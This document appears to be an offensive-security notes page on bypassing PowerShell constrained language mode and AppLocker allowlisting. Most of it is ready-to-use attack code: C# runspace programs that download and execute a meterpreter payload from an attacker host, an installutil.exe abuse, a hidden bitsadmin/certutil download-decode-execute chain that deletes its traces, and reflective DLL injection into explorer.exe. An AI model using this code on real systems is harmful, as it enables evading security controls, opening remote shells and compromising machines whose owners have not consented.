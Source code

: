 ```yaml
---
title: PowerShell AppLocker bypass
tags:
  - breach
  - operations
  - applocker
  - powershell
  - bypass
  - allowlist
  - whitelist
---
```


## Language modes

To get our current user's **PowerShell** language mode, invoke the following:

```powershell
$ExecutionContext.SessionState.LanguageMode
```

Under `ConstrainedLanguage` mode, only scripts that comply with the
**AppLocker** allowlist, existing within a allowlisted directory or comply with
a allowlisting rule, can execute with full functionality. These limitations also
restrict users from invoking the **.NET** framework from PowerShell to execute
C# code or conduct reflection.

## Creating a custom runspace

PowerShell functionality exists within the `System.Management.Automation.dll`
managed DLL, used by PowerShell to create a **runspace**. **Runspaces** are how
PowerShell managed jobs, multithreading, and parallel task execution, accessible
to managed code written in C# and .NET.

Creating a C# .NET project, we can create our own runspace with the following
code, bypassing the `ConstrainedLanguage` mode, and executing a PowerShell
**meterpreter** reverse shell payload:

```csharp
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;

namespace Bypass
{
    class Program
    {
        static void Main()
        {
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;
            String cmd = "(Invoke-RestMethod -Uri 'http://${LHOST}:${LPORT}/Payload.ps1' -UseBasicParsing) | Invoke-Expression";
            ps.AddScript(cmd);
            ps.Invoke();
            rs.Close();
        }
    }
}
```

## Bypass directory restrictions with installutil

Using code from our C# .NET project in the previous section,
[[powershell-applocker-bypass#Creating a custom runspace|Creating a custom runspace]],
we can create a project with valid symbols for the Windows `installutil.exe`
utility:

```csharp
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;

namespace Bypass
{
    class Program
    {
        static void Main()
        {
            Console.WriteLine("");
        }
    }

    [System.ComponentModel.RunInstaller(true)]
    public class Sample : Installer
    {
        public override void Uninstall(System.Collections.IDictionary savedState)
        {
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;
            String cmd = "(Invoke-RestMethod -Uri 'http://${LHOST}:${LPORT}/Payload.ps1' -UseBasicParsing) | Invoke-Expression";
            ps.AddScript(cmd);
            ps.Invoke();
            rs.Close();
        }
    }
}
```

### Transferring the payload

The problem with using `installutil.exe` is that the payload needs to be written
to disk, creating an opening for Windows Defender to scan and inspect our
payload during download as well as storage on the host. We can use a combination
of `bitsadmin.exe` and `certutil.exe` to securely transfer the payload and
execute it.

The following invocation uses `certutil.exe` to encode the payload:

```powershell
certutil -encode "${PAYLOAD_PATH}" "${OUTFILE}"
```

The following invocation downloads the encoded payload from your attacker host
and executes it:

```powershell
$InstallUtilProgram = (Get-ChildItem `
	-ErrorAction SilentlyContinue `
	-Path "C:\Windows" `
	-Filter "installutil.exe" `
	-Recurse `
	-File | Where-Object {$_.FullName -Like "*Framework64\v4*"}).FullName
$BitsAdminProgram = (Get-Command -Name "bitsadmin").Source
$CertUtilProgram = (Get-Command -Name "certutil").Source

$lHost = "192.168.45.190"
$lPort = "80"
$encodedFileName = "encoded.txt"
$uri = "http://${lHost}:${lPort}/$encodedFileName"
$decodedFileName = "Bypass.exe"
$encodedFilePath = (Join-Path `
	-Path (Resolve-Path -Path .).Path `
	-ChildPath $encodedFileName
)
$decodedFilePath = (Join-Path `
	-Path (Resolve-Path -Path .).Path `
	-ChildPath $decodedFileName
)

Start-Process `
	-FilePath $BitsAdminProgram `
	-ArgumentList @(
		"/TRANSFER",
		"transferJob",
		$uri,
		$encodedFilePath
	) `
	-WindowStyle Hidden `
	-Wait

Start-Process `
    -FilePath $CertUtilProgram `
    -ArgumentList @(
	    "-decode",
	    $encodedFilePath,
	    $decodedFilePath
    ) `
    -WindowStyle Hidden `
    -Wait

Remove-Item -Path $encodedFilePath

Start-Process `
    -FilePath $InstallUtilProgram `
    -ArgumentList @(
	    "/LogFile=",
	    "/LogToConsole=false",
	    "/U",
	    $decodedFilePath
    ) `
    -WindowStyle Hidden
```

Make sure to host your payload on an HTTP server that supports `bitsadmin`, e.g.
`apache2`:

```bash
sudo systemctl start apache2
```

## Reflective DLL injection

Using
[Invoke-ReflectivePEInjection](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1)
from **PowerSploit**, we can also inject meterpreter reverse shell payload DLLs
into target processes through this PowerShell code execution bypass using C#
.NET.

The following C# .NET project uses the previous `installutil.exe` technique to
download a payload from our attacker host and inject it into the `explorer.exe`
process:

```csharp
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;

namespace Bypass
{
    class Program
    {
        static void Main()
        {
            Console.WriteLine("");
        }
    }

    [System.ComponentModel.RunInstaller(true)]
    public class Sample : System.Configuration.Install.Installer
    {
        public override void Uninstall(System.Collections.IDictionary savedState)
        {
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;
            String cmd =
@"$bytes = (Invoke-WebRequest -Uri 'http://${LHOST}:${LPORT}/Payload.dll' -UseBasicParsing).Content
(Invoke-RestMethod -Uri 'http://${LHOST}:${LPORT}/Invoke-ReflectivePEInjection.ps1') | Invoke-Expression
$procid = (Get-Process -Name explorer).Id
Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid -ErrorAction SilentlyContinue";
            ps.AddScript(cmd);
            ps.Invoke();
            rs.Close();
        }
    }
}
```
